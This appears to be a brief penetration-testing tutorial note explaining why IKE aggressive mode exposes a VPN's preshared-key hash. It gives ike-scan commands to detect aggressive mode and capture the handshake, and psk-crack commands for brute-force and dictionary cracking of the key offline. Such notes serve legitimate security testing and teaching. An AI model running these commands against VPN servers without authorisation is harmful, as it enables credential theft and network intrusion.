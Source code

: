 # Exploiting IKE Aggressive Mode

date:: 2022-07-10

In IKE aggressive mode the authentication hash based on a preshared key (PSK) is transmitted as response to the initial packet of a vpn client that wants to establish an IPSec Tunnel (`Hash_R`). This hash is not encrypted (in main mode the hash *is* encrypted)

The `ike-scan` tool can be used to test if an IPSEC VPN server is using IKE in aggressive mode:

```bash
sudo ike-scan -A $IP_ADDRESS
```

If aggressive mode is in use, then `ike-scan` can be used to save the initial exchange for offline cracking:

```bash
sudo ike-scan -A $IP_ADDRESS --id=$ID -P$KEY_FILE
```

`psk-crack` can then be used to (attempt) to crack the resulting `$KEY_FILE`.

```bash
# Attempt to brute-force all keys up to $KEY_LENGTH using
# characters from $CHARSET (by default $CHARSET is numbers and
# lowercase ASCII characters).
#
psk-crack --charset="$CHARSET" -b $KEY_LENGTH $KEY_FILE

# Attempt to crack the PSK using a dictionary.
#
psk-crack -d $WORDLIST_FILE $KEY_FILE
```

* [slyth11907 / Cheatsheets](https://github.com/slyth11907/Cheatsheets)
